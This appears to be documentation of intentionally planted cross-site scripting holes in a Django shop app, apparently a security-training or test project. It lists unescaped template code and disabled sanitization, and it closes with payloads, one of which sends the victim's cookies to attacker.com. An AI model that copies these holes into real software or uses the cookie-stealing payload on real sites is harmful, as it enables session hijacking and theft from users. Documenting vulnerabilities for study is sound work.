 # Cross-Site Scripting (XSS) Vulnerabilities Documentation

## Vulnerability Overview
**Type**: Cross-Site Scripting (XSS) - Both Reflected and Stored  
**Severity**: High  
**OWASP Category**: A03:2021 – Injection  

## Vulnerability Locations

### 1. Reflected XSS
**Location**: `/catalog/?q=` search results display  
**File**: `eshop/templates/eshop/catalog.html` (line 26)  
**Vulnerable Code**: `{{ search_query|safe }}`  

### 2. Stored XSS - Product Reviews
**Location**: Product review system  
**Files**: 
- `eshop/models/reviews.py` - No sanitization on save
- `eshop/forms.py` - Disabled bleach sanitization (lines 378-388)
- `eshop/templates/eshop/product_detail.html` - `{% autoescape off %}`
- `eshop/views.py` - No sanitization in submit_review (lines 951-957)

### 3. Stored XSS - Shipping Address
**Location**: Shipping address form fields  
**File**: `eshop/forms.py` - ShippingAddressForm clean() method disabled

## Technical Details

### Reflected XSS
The search query parameter is directly rendered in the template using the `|safe` filter, which disables Django's automatic HTML escaping.

### Stored XSS
1. **Product Reviews**: User input is stored in the database without sanitization and rendered without escaping
2. **Shipping Address**: Form fields are not sanitized before storage

## Exploitation Steps

### 1. Reflected XSS Attack
**Basic Alert Payload**:
```
http://localhost:8000/catalog/?q=<script>alert('XSS')</script>
```

**Cookie Stealer Payload**:
```
http://localhost:8000/catalog/?q=<script>document.location='http://attacker.com/steal?c='+document.cookie</script>
```
